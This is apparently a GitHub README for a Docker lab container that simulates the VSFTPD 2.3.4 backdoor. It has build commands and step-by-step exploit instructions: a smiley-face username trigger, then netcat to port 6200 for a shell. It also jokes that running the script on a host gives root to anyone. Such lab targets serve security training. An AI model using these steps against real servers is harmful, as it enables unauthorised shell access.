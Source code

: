 # VSFTPD Backdoor Container

This project implements a simulated VSFTPD server that allows the 2.3.4/5 backdoor vulnerability to be exploited.

## Hosting

This assumes you have a working docker install

build with `sudo docker build -t vsftpd:latest .`

then run `docker run -p 2121:21 -p 6200:6200 vulnerable-vsftpd:2.3.4`

## Exploit

1. Connect to the server with an ftp client, e.g. `ftp localhost 21`
2. Provide a smiley face in the username, e.g. `user:)`
3. Provide any password
4. In a new terminal, initiate a connection to port 6200: `nc localhost 6200`
5. Congrats, shell achieved!

*Alternatively, just run the python script on your host machine. It will give everyone who triggers the backdoor root access to your system, but maybe that's what you're going for. Who am I to stop you?*